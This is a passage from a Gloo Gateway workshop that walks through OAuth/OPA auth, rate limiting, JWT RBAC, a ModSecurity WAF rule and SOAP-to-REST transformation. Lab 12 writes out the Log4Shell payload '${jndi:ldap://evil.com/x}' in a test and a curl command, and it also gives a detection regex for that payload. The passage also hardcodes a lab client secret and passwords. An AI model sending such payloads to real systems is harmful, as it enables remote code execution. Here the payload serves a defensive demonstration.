          logoutPath: /logout
          afterLogoutUrl: "https://httpbin.example.com/get"
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: jwt
          identityToken:
            claimsToHeaders:
              - claim: email
                header: X-Email
EOF
```


After that, you need to create a `RouteOption`, to reference the `AuthConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
EOF
```

You can use this diagram to understand the order in which the different options are applied.


Finally, you need to update the `HTTPRoute` to use this `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      filters:
        - type: ExtensionRef
          extensionRef:
            group: gateway.solo.io
            kind: RouteOption
            name: routeoption
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

<!--bash
ATTEMPTS=1
timeout 60 bash -c 'while [[ "$(curl -m 2 --max-time 2 --insecure -s -o /dev/null -w ''%{http_code}'' https://httpbin.example.com/get)" != "302" ]]; do sleep 5; done'
export USER1_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user1)
export USER2_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user2)
ATTEMPTS=1
until ([ ! -z "$USER2_COOKIE" ] && [[ $USER2_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER2_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user2)
done
ATTEMPTS=1
until ([ ! -z "$USER1_COOKIE" ] && [[ $USER1_COOKIE != *"dummy"* ]]) || [ $ATTEMPTS -gt 20 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 3
  export USER1_COOKIE=$(node tests/keycloak-token.js "https://httpbin.example.com/get" user1)
done
echo "User1 token: $USER1_COOKIE"
echo "User2 token: $USER2_COOKIE"
-->

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {
  const cookieString = process.env.USER1_COOKIE;

  it("The httpbin page isn't accessible without authenticating", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', retCode: 302 }));

  it("The httpbin page is accessible after authenticating", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 200 }));
});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/extauth-oauth/tests/authentication.test.js.liquid from lab number 8"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 8"; exit 1; }
-->
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'user2@solo.io' }));
});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/extauth-oauth/tests/header-added.test.js.liquid from lab number 8"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 8"; exit 1; }
-->

If you refresh the web browser, you will be redirected to the authentication page.

If you use the username `user1` and the password `password` you should be redirected back to the `httpbin` application.

Notice that we are also extracting information from the `email` claim, and putting it into a new header. This can be used for different things during our authz/authn flow, but most importantly we don't need any jwt-decoding library in the application anymore!

You can also perform authorization using OPA.

First, you need to create a `ConfigMap` with the policy written in rego:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ConfigMap
metadata:
  name: allow-solo-email-users
  namespace: httpbin
data:
  policy.rego: |-
    package test

    default allow = false

    allow {
        [header, payload, signature] = io.jwt.decode(input.state.jwt)
        endswith(payload["email"], "@solo.io")
    }
EOF
```

Then, you need to update the `AuthConfig` object to add the authorization step:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: enterprise.gloo.solo.io/v1
kind: AuthConfig
metadata:
  name: oauth
  namespace: httpbin
spec:
  configs:
    - oauth2:
        oidcAuthorizationCode:
          appUrl: "https://httpbin.example.com"
          callbackPath: /callback
          clientId: ${KEYCLOAK_CLIENT}
          clientSecretRef:
            name: oauth
            namespace: gloo-system
          issuerUrl: "${KEYCLOAK_URL}/realms/workshop/"
          logoutPath: /logout
          afterLogoutUrl: "https://httpbin.example.com/get"
          session:
            failOnFetchFailure: true
            redis:
              cookieName: keycloak-session
              options:
                host: redis:6379
          scopes:
          - email
          headers:
            idTokenHeader: jwt
          identityToken:
            claimsToHeaders:
              - claim: email
                header: X-Email
    - opaAuth:
        modules:
        - name: allow-solo-email-users
          namespace: httpbin
        query: "data.test.allow == true"
EOF
```

Refresh the web page. `user1` shouldn't be allowed to access it anymore since the user's email ends with `@example.com`.
<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Authentication is working properly", function () {

  const cookieString_user1 = process.env.USER1_COOKIE;
  const cookieString_user2 = process.env.USER2_COOKIE;

  it("The httpbin page isn't accessible with user1", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user1 }], retCode: "keycloak-session=dummy" == cookieString_user1 ? 302 : 403 }));
  it("The httpbin page is accessible with user2", () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString_user2 }], retCode: 200 }));

});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/extauth-oauth/tests/authorization.test.js.liquid from lab number 8"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 8"; exit 1; }
-->
If you open the browser in incognito and login using the username `user2` and the password `password`, you will now be able to access it since the user's email ends with `@solo.io`.


## Lab 9 - Use the transformation filter to manipulate headers <a name="lab-9---use-the-transformation-filter-to-manipulate-headers-"></a>


In this step, we're going to use a regular expression to extract a part of an existing header and to create a new one:

Let's update the `RouteOption` to extract the domain name from the email of the user.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: "{{ organization }}"
EOF
```

If you refresh the web page, you should see a new `X-Organization` header added to the request with the value `solo.io`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Transformation is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], body: 'X-Organization' }));
});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/advanced-transformations/tests/header-added.test.js.liquid from lab number 9"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 9"; exit 1; }
-->


## Lab 10 - Apply rate limiting to the Gateway <a name="lab-10---apply-rate-limiting-to-the-gateway-"></a>

In this step, we're going to apply rate limiting to the Gateway to only allow 3 requests per minute for the users of the `solo.io` organization.

First, we need to create a `RateLimitConfig` object to define the limits:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: ratelimit.solo.io/v1alpha1
kind: RateLimitConfig
metadata:
  name: limit-users
  namespace: httpbin
spec:
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF
```

Finally, you need to update the `RouteOption` to use this `RateLimitConfig`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  options:
    extauth:
      configRef:
        name: oauth
        namespace: httpbin
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            transformationTemplate:
              extractors:
                organization:
                  header: 'X-Email'
                  regex: '.*@(.*)$'
                  subgroup: 1
              headers:
                x-organization:
                  text: "{{ organization }}"
    rateLimitConfigs:
      refs:
      - name: limit-users
        namespace: httpbin
EOF
```

Refresh the web page multiple times.

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Rate limiting is working properly", function() {
  const cookieString = process.env.USER2_COOKIE;
  it('The httpbin page should be rate limited', () => helpersHttp.checkURL({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'Cookie', value: cookieString }], retCode: 429 }));
});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/ratelimiting/tests/rate-limited.test.js.liquid from lab number 10"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 10"; exit 1; }
-->

You should get a `200` response code the first 3 times and a `429` response code after.

Let's apply the original `HTTPRoute` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: httpbin
  namespace: httpbin
spec:
  rules:
    - matches:
      - path:
          type: PathPrefix
          value: /
      backendRefs:
        - name: httpbin1
          port: 8000
EOF
```

Let's delete the `RouteOption` object:
```bash
kubectl delete --context ${CLUSTER1} -n httpbin routeoption routeoption
```


## Lab 11 - Use the JWT filter to validate JWT and create headers from claims <a name="lab-11---use-the-jwt-filter-to-validate-jwt-and-create-headers-from-claims-"></a>


In this step, we're going to validate the JWT token and to create a new header from the `email` claim.

You can restrict a request's access based on the claims and scopes in a JWT. `Claims` are key-value pairs that provide identity details, such as the subject's user ID, the entity that issued the token, and expiration time. `Scopes` are strings that indicate the permissions granted to the token holder.

We need to create an `Upstream` representing Keycloak:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gloo.solo.io/v1
kind: Upstream
metadata:
  name: keycloak
  namespace: gloo-system
spec:
  static:
    hosts:
      - addr: ${HOST_KEYCLOAK}
        port: ${PORT_KEYCLOAK}
EOF
```


Then, we need to create a `RouteOption` to validate the JWT token and extract the `email` claim.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    jwtProvidersStaged:
      afterExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_URL}/realms/workshop
            tokenSource:
              headers:
              - header: jwt
            jwks:
              remote:
                url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak
                  namespace: gloo-system
            claimsToHeaders:
            - claim: email
              header: X-Email
EOF
```

This is targeting the httpbin `HTTPRoute`.


Try accessing the `httpbin` application without any token.

```bash,noexecute
curl -k https://httpbin.example.com/get
```

You should get a `Jwt is missing` error message.

Let's get a JWT token:

```bash
export USER1_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user1" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
```

Now, you should be able to access it:

```bash,noexecute
curl -k https://httpbin.example.com/get -H "jwt: ${USER1_COOKIE_JWT}"
```

Here is the expected output:

```json,nocopy
{
  "args": {},
  "headers": {
    "Accept": [
      "*/*"
    ],
    "Host": [
      "httpbin.example.com"
    ],
    "User-Agent": [
      "curl/8.5.0"
    ],
    "X-Email": [
      "user1@example.com"
    ],
    "X-Envoy-Expected-Rq-Timeout-Ms": [
      "15000"
    ],
    "X-Forwarded-Proto": [
      "https"
    ],
    "X-Request-Id": [
      "3eda8433-741d-40fd-887e-b6dddca89a3d"
    ]
  },
  "method": "GET",
  "origin": "10.101.0.18:60788",
  "url": "https://httpbin.example.com/get"
}
```

You should see a new `X-Email` header added to the request with the value `user1@example.com`

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Claim to header is working properly", function() {
  const jwtString = process.env.USER1_COOKIE_JWT;
  it('The new header has been added', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"X-Email":' }));
  it('The new header has value', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwtString }], body: '"user1@example.com"' }));
});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/jwt/tests/header-added.test.js.liquid from lab number 11"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 11"; exit 1; }
-->


We can also update the `RouteOption` to add a RBAC rule to only allow a user with the email `user2@solo.io` to access the application.

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: httpbin
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    jwtProvidersStaged:
      afterExtAuth:
        providers:
          keycloak:
            issuer: ${KEYCLOAK_URL}/realms/workshop
            tokenSource:
              headers:
              - header: jwt
            jwks:
              remote:
                url: ${KEYCLOAK_URL}/realms/workshop/protocol/openid-connect/certs
                upstreamRef:
                  name: keycloak
                  namespace: gloo-system
            claimsToHeaders:
            - claim: email
              header: X-Email
    rbac:
      policies:
        viewer:
          principals:
          - jwtPrincipal:
              claims:
                email: user2@solo.io
EOF
```


Try accessing the `httpbin` application again.

```bash,noexecute
curl -k https://httpbin.example.com/get -H "jwt: ${USER1_COOKIE_JWT}"
```

You should get a `RBAC: access denied` error message.

Let's get a JWT token for the second user.

We will use gloo to add conditional access to the `httpbin` service based on the `email` scope and claim in the JWT token.

```bash
export USER2_COOKIE_JWT=$(curl -Ssm 10 --fail-with-body \
  -d "client_id=gloo-ext-auth" \
  -d "client_secret=hKcDcqmUKCrPkyDJtCw066hTLzUbAiri" \
  -d "username=user2" \
  -d "password=password" \
  -d "grant_type=password" \
  "$KEYCLOAK_URL/realms/workshop/protocol/openid-connect/token" |
  jq -r .access_token)
```

You should be able to access the application with this user.

```bash,noexecute
curl -k https://httpbin.example.com/get -H "jwt: ${USER2_COOKIE_JWT}"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Only User2 can access httpbin", function() {
  const jwt1String = process.env.USER1_COOKIE_JWT;
  it('User1 access is refused', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwt1String }], body: 'RBAC: access denied' }));
  const jwt2String = process.env.USER2_COOKIE_JWT;
  it('User2 access is allowed', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{ key: 'jwt', value: jwt2String }], body: '"user2@solo.io"' }));
});

EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/jwt/tests/only-user2-allowed.test.js.liquid from lab number 11"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 11"; exit 1; }
-->


Let's delete the `VirtualHostOption` we've created:

```bash

kubectl --context ${CLUSTER1} -n httpbin delete routeoption routeoption

```


## Lab 12 - Use the Web Application Firewall filter <a name="lab-12---use-the-web-application-firewall-filter-"></a>

A web application firewall (WAF) protects web applications by monitoring, filtering, and blocking potentially harmful traffic and attacks that can overtake or exploit them.

Gloo Gateway includes the ability to enable the ModSecurity Web Application Firewall for any incoming and outgoing HTTP connections.

An example of how using Gloo Gateway we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

The Log4Shell vulnerability impacted all Java applications that used the log4j library (common library used for logging) and that exposed an endpoint. You could exploit the vulnerability by simply making a request with a specific header. In the example below, we will show how to protect your services against the Log4Shell exploit.

Using the Web Application Firewall capabilities you can reject requests containing such headers.

Log4Shell attacks operate by passing in a Log4j expression that could trigger a lookup to a remote server, like a JNDI identity service. The malicious expression might look something like this: `${jndi:ldap://evil.com/x}`. It might be passed in to the service via a header, a request argument, or a request payload. What the attacker is counting on is that the vulnerable system will log that string using log4j without checking it. That's what triggers the destructive JNDI lookup and the ultimate execution of malicious code.

You need to create the following `RouteOption`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: waf
  namespace: gloo-system
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: httpbin
  options:
    waf:
      customInterventionMessage: 'Log4Shell malicious payload'
      ruleSets:
      - ruleStr: |
          SecRuleEngine On
          SecRequestBodyAccess On
          SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*
            "@rx \\\${jndi:(?:ldaps?|iiop|dns|rmi)://"
            "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

As you can see, this `RouteOption` targets the parent `HTTPRoute`. That way, the WAF rule is applied to all the traffic targetting the `httpbin` application.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: `https://httpbin.example.com`, path: '/get', headers: [{key: 'User-Agent', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});
EOF
echo "executing test dist/document/build/templates/steps/apps/httpbin/waf/tests/waf.test.js.liquid from lab number 12"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 12"; exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://httpbin.example.com/get" -i
```

The request should be rejected:

```http,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's delete the `RouteOption` we've created:

```bash
kubectl delete --context ${CLUSTER1} -n gloo-system routeoption waf
```


## Lab 13 - Deploy the World Cities sample application <a name="lab-13---deploy-the-world-cities-sample-application-"></a>

We're going to deploy the "World Cities" sample application to demonstrate additional features of Gloo Gateway.
This is a simple application that provides a single SOAP endpoint to perform a fuzzy search for city names in a public [database](https://github.com/datasets/world-cities/blob/master/data/world-cities.csv).

Create a new namespace in the cluster and apply a deployment and service for this application:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Namespace
metadata:
  name: world-cities
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: world-cities-soap-service
  namespace: world-cities
spec:
  selector:
    matchLabels:
      app: world-cities-soap-service
  replicas: 1
  template:
    metadata:
      labels:
        app: world-cities-soap-service
    spec:
      containers:
      - name: world-cities-soap-service
        image: quay.io/solo-io/world-cities-soap-service:0.0.1
        imagePullPolicy: IfNotPresent
        ports:
        - containerPort: 8080
---
apiVersion: v1
kind: Service
metadata:
  name: world-cities-soap-service
  namespace: world-cities
  labels:
    app: world-cities-soap-service
spec:
  ports:
  - port: 8080
    protocol: TCP
  selector:
    app: world-cities-soap-service
EOF
```

<!--bash
kubectl --context ${CLUSTER1} -n world-cities rollout status deploy --timeout=5m
-->

You can check that the "World Cities" pod is running using the following command:

```bash,noexecute
kubectl --context ${CLUSTER1} -n world-cities get pods
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("World Cities application", () => {
  it('is running', () => helpers.checkDeployment({ context: process.env.CLUSTER1, namespace: "world-cities", k8sObj: "world-cities-soap-service" }));
});
EOF
echo "executing test dist/document/build/templates/steps/apps/world-cities/deploy-and-expose-world-cities/tests/check-world-cities.test.js.liquid from lab number 13"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 13"; exit 1; }
-->

Create a new `HTTPRoute` to expose the application via Gloo Gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: world-cities
  namespace: world-cities
spec:
  parentRefs:
  - name: http
    namespace: gloo-system
    sectionName: https
  hostnames:
  - "world-cities.example.com"
  rules:
  - backendRefs:
    - name: world-cities-soap-service
      port: 8080
EOF
```

Configure your hosts file to resolve world-cities.example.com with the IP address of the proxy by executing the following command:

```bash
./scripts/register-domain.sh world-cities.example.com ${PROXY_IP}
```

Make sure the service is accessible by sending it a SOAP message to return cities that match search string _"south bo"_:

```bash,noexecute
curl -ik https://world-cities.example.com/ -H "SOAPAction:findCity" -H "content-type:application/xml" -d \
  '<?xml version="1.0" encoding="UTF-8"?>
  <Envelope xmlns="http://schemas.xmlsoap.org/soap/envelope/" xmlns:soap="http://schemas.xmlsoap.org/soap/">
      <Header />
      <Body>
          <Query>
          <CityQuery>south bo</CityQuery>
          </Query>
          \
      </Body>
  </Envelope>'
```

You should get an XML response to that SOAP/XML query:

```xml,nocopy
HTTP/2 200
content-length: 901
content-type: text/xml; charset="utf-8"
date: Thu, 10 Apr 2025 13:37:42 GMT
x-envoy-upstream-service-time: 8
server: envoy

<Envelope xmlns="http://schemas.xmlsoap.org/soap/envelope/">
	<Header xmlns="http://schemas.xmlsoap.org/soap/envelope/"></Header>
	<Body xmlns="http://schemas.xmlsoap.org/soap/envelope/">
		<Content>
			<Match>
				<City>south boston</City>
				<Country>United States</Country>
				<SubCountry>Massachusetts</SubCountry>
				<GeoNameId>4951305</GeoNameId>
			</Match>
			<Match>
				<City>south peabody</City>
				<Country>United States</Country>
				<SubCountry>Massachusetts</SubCountry>
				<GeoNameId>4951473</GeoNameId>
			</Match>
			<Match>
				<City>south bradenton</City>
				<Country>United States</Country>
				<SubCountry>Florida</SubCountry>
				<GeoNameId>4173392</GeoNameId>
			</Match>
			<Match>
				<City>south burlington</City>
				<Country>United States</Country>
				<SubCountry>Vermont</SubCountry>
				<GeoNameId>5241248</GeoNameId>
			</Match>
		</Content>
	</Body>
</Envelope>
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("World Cities service", () => {
  it('is available as SOAP', () => helpers.checkBody({
    host: `https://world-cities.example.com`,
    path: '/',
    headers: [
      { key: 'SOAPAction', value: "findCity" },
      { key: 'Content-Type', value: "application/xml" },
    ],
    method: "post",
    data: `<?xml version="1.0" encoding="UTF-8"?>
  <Envelope xmlns="http://schemas.xmlsoap.org/soap/envelope/" xmlns:soap="http://schemas.xmlsoap.org/soap/">
      <Header />
      <Body>
          <Query>
          <CityQuery>south bo</CityQuery>
          </Query>
          \
      </Body>
  </Envelope>`,
    body: 'south boston',
    match: true,
  }));
})
EOF
echo "executing test dist/document/build/templates/steps/apps/world-cities/deploy-and-expose-world-cities/tests/world-cities-exposed-soap.test.js.liquid from lab number 13"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail --exit || { DEBUG_MODE=true mocha ./test.js --timeout 120000; echo "The workshop failed in lab number 13"; exit 1; }
-->


## Lab 14 - Expose a SOAP service as REST <a name="lab-14---expose-a-soap-service-as-rest-"></a>

The "World Cities" application we deployed is a SOAP service.
In this step, we will expose the SOAP service as a REST service using Gloo Gateway's transformation capabilities.
This will mean that the service is presented externally as a REST service while continuing to be implemented internally as a SOAP service.

We'll use XSLT to transform the incoming REST request into a SOAP request and the SOAP response back into a REST response.
This requires two transformations: one for the incoming request and one for the outgoing response.

This is the incoming request transformation:

```xml,nocopy
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:math="http://www.w3.org/2005/xpath-functions/math"
xmlns:xs="http://www.w3.org/2001/XMLSchema"
exclude-result-prefixes="xs math" version="3.0">
  <xsl:output indent="yes" omit-xml-declaration="yes" />
  <xsl:strip-space elements="*"/>
  <xsl:template match="/" xmlns="http://schemas.xmlsoap.org/soap/envelope/">
    <Envelope >
      <Header/>
      <Body>
        <Query>
          <xsl:apply-templates select="json-to-xml(.)/*"/>
        </Query>
      </Body>
    </Envelope>
  </xsl:template>
  <xsl:template match="map" xpath-default-namespace="http://www.w3.org/2005/xpath-functions" xmlns:web="http://www.qas.com/OnDemand-2011-03">
    <CityQuery><xsl:value-of select="string[@key='cityQuery']" /></CityQuery>
  </xsl:template>
</xsl:stylesheet>
```

This converts a simple request body like `{"cityQuery": "south bo"}` into the full XML envelope required by the SOAP service, which we used earlier.
Note that a lot of the difficult work is delegated to the XSLT function `json-to-xml`.
We use it in the request XSLT to transform the core of the JSON input to XML, and vice versa later with the response.

The response transformation is similar to the request transformation, but in reverse:

```xml,nocopy
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:xs="http://www.w3.org/2001/XMLSchema"
xpath-default-namespace="http://schemas.xmlsoap.org/soap/envelope/"
version="3.0">
  <xsl:output method="text" omit-xml-declaration="yes" />
  <xsl:variable name="myMap">
    <map xmlns="http://www.w3.org/2005/xpath-functions">
      <array key="matches" >
        <xsl:for-each select="/Envelope/Body/Content/Match">
          <map>
            <string key="city"><xsl:value-of select="City"/></string>
            <string key="country"><xsl:value-of select="Country" /></string>
            <string key="subCountry"><xsl:value-of select="SubCountry" /></string>
            <string key="geoNameId"><xsl:value-of select="GeoNameId" /></string>
          </map>
        </xsl:for-each>
      </array>
    </map>
  </xsl:variable>
  <xsl:template match="/">
    <xsl:apply-templates select="xml-to-json($myMap, map{'indent': true()})" />
  </xsl:template>
</xsl:stylesheet>
```

The `xml-to-json` XSLT function translates the XML response from the server to the JSON that we see in the response payload.

We can use a single `RouteOption` manifest to define both of these transformations and bind them to the `HTTPRoute` that exposes the application via Gloo Gateway.

Create the `RouteOption` defining those transformations:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: gateway.solo.io/v1
kind: RouteOption
metadata:
  name: routeoption
  namespace: world-cities
spec:
  targetRefs:
  - group: gateway.networking.k8s.io
    kind: HTTPRoute
    name: world-cities
  options:
    stagedTransformations:
      regular:
        requestTransforms:
        - requestTransformation:
            xsltTransformation:
              xslt: |
                <?xml version="1.0" encoding="UTF-8"?>
                <xsl:stylesheet
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:math="http://www.w3.org/2005/xpath-functions/math"
                xmlns:xs="http://www.w3.org/2001/XMLSchema"
                exclude-result-prefixes="xs math" version="3.0">
                  <xsl:output indent="yes" omit-xml-declaration="yes" />
                  <xsl:strip-space elements="*"/>
                  <xsl:template match="/" xmlns="http://schemas.xmlsoap.org/soap/envelope/">
                    <Envelope >
                      <Header/>
                      <Body>
                        <Query>
                          <xsl:apply-templates select="json-to-xml(.)/*"/>
                        </Query>
                      </Body>
                    </Envelope>
                  </xsl:template>
                  <xsl:template match="map" xpath-default-namespace="http://www.w3.org/2005/xpath-functions" xmlns:web="http://www.qas.com/OnDemand-2011-03">
                    <CityQuery><xsl:value-of select="string[@key='cityQuery']" /></CityQuery>
                  </xsl:template>
                </xsl:stylesheet>
              nonXmlTransform: true
              setContentType: text/xml
          responseTransformation:
            xsltTransformation:
              xslt: |
                <?xml version="1.0" encoding="UTF-8"?>
                <xsl:stylesheet
                xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:xs="http://www.w3.org/2001/XMLSchema"
                xpath-default-namespace="http://schemas.xmlsoap.org/soap/envelope/"
                version="3.0">
                  <xsl:output method="text" omit-xml-declaration="yes" />
                  <xsl:variable name="myMap">
                    <map xmlns="http://www.w3.org/2005/xpath-functions">
                      <array key="matches" >
                        <xsl:for-each select="/Envelope/Body/Content/Match">
                          <map>
                            <string key="city"><xsl:value-of select="City"/></string>
                            <string key="country"><xsl:value-of select="Country" /></string>
                            <string key="subCountry"><xsl:value-of select="SubCountry" /></string>
                            <string key="geoNameId"><xsl:value-of select="GeoNameId" /></string>
                          </map>
                        </xsl:for-each>
                      </array>
                    </map>
                  </xsl:variable>
                  <xsl:template match="/">
                    <xsl:apply-templates select="xml-to-json(\$myMap, map{'indent': true()})" />
                  </xsl:template>
                </xsl:stylesheet>
